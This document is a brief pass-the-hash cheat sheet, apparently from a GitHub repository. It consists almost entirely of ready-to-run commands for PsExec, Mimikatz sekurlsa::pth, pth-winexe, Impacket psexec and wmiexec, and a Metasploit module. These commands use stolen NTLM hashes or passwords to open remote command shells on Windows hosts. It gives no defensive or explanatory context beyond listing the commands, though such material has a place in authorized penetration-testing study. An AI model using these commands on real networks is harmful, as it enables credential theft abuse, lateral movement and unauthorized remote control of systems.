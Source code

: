 # Pass the Hash

### Psexec on windows
```
PsExec.exe \\TARGET-HOSTNAME -u DOMAIN\USERNAME -p PASSWORD cmd.exe
```

### Mimikatz
```
privilege::debug
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND

For example:
sekurlsa::pth /user:pentest /domain:pentest.lab /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:"./PsExec.exe \\TARGET-HOSTNAME cmd.exe"
```

### pth-winexe
```
pth-winexe -U DOMAIN/USERNAME%<LM:NTLM> //TARGET-IP cmd
```

### Impacket Psexec
with credentials
```
python psexec.py <USERNAME>:<PASSWORD>@<TARGET-IP>
```
with hash
```
python psexec.py -hashes <LM:NTLM> <USERNAME>@<TARGET-IP> cmd.exe
```

### Impacket Wmiexec
```
python wmiexec.py -hashes <LM:NTLM> <USERNAME>@<TARGET-IP>
```

### Metasploit
```
exploit/windows/smb/psexec
```

### See also:
* [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
